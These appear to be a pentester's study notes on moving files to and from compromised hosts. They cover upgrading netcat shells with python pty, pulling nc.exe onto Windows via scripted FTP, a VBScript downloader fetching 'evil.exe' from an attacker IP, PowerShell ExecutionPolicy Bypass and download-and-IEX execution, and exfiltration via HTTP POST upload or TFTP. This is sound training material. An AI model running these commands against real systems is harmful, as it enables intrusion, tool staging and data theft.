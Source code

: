 # Considerations
- Consider the implication of transferring attack tools and utilites onto the target.  Try as a preference to #LOLBAS.
- Non-interactive shells : most netcat-like tools provide a non-interactive shell.  This hinders commands that require user interaction... This require upgrading the shell. 
1. using the #pty module in python. 
	1. **python -c 'import pty; pty.spawn("/bin/bash")'** 
	2. (inside the nc session) **CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;** 

# Transferring files with Windows hosts
- As windows clients ship with a default #FTP client, we'll start with that. The **ftp -s** option accepts a text-based command list that effectively makes the client non-interactive.
	1. On the attack machine, put the nc.exe bin in the directory from which you'll launch your attack and **systemctl restart pure-ftpd** 
	2. Build a .txt file of FTP commands to execute using the **echo** command. ![[Pasted image 20221027104103.png]]
	3. Use the **ftp -v -n -s:ftp.txt** command then verify it worked !![[Pasted image 20221027104331.png]]

# Windows downloads using scripting languages
- Can use a #VBScript for older versions (WindowsXP, 2003) and PowerShell.  An example of a simple HTTP downloader using non-interactive echo commands is ![[Pasted image 20221027105655.png]]
	- You can then run this script using **cscript** with the following command : **cscript wget.vbs http://10.11.0.4/evil:exe evil.exe**
- We can do the same with #PowerShell as in the following example : ![[Pasted image 20221027110357.png]]
	- Then running the script with PowerShell using the following command : **powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1** 
- We can also download and execute a .ps1 w/o saving it to a disk using the *System.Net.Webclient* class by combining the **DownloadString*** method wiht the *Invoke-Expression* cmdlet (**IEX**) ![[Pasted image 20221027113219.png]]

## Windows downloads with #exe2hex and .ps
This is a more roundabout method, but interesting nonetheless.
1. On kali, compress teh binary to transfer (**upx -9 nc.exe**)
2. Convert the *.exe* file to a windows script (*.cmd*).  This will convert the file to hex and instruct **powershell.exe** to assemble it back to binary. **exe2hex -x nc.exe -p nc.cmd** 
3. embed it into a Windows script.

### Windows uploads using Windows scripting languages
Exfiltrating data using a Windows client presents a challenge since TFTP, FTP, and HTTP servers are rarely enabled on Windows by default.  That said, if HTTP traffic outbound is allowed, can use *System.Net.WebClient* ps1 class to upload data ***to*** our Kali machine through an HTTP POST request.
1. On the Kali machine : 
	1. Create a PHP script (*upload.php*) and save it in our kali webroot directory (**/var/www/html**)  ![[Pasted image 20221027115405.png]]
	2. Create the **/var/www/upoads** directory and mod it's permissions to give *www-data* user ownership and write perms.
2. On the Windows machine : 
	1. Invoke the **UploadFile** method from the *System.Net.WebClient* class to upload the doc to exfil. ![[Pasted image 20221027115713.png]]

# Uploading files with TFTP
This may be an effective method for older systems such as XP or Server 2003.  TFTP is a UDP-based protocol, often blocked by outbound firewall rules.  Allows us non-interactive file transfer.
1. Set up TFTP server on Kali![[Pasted image 20221027120433.png]]
2. On Windows, run the TFTP client using hte **-i** to specify a binary image transfer adn **put** to initiate an upload ![[Pasted image 20221027120547.png]]
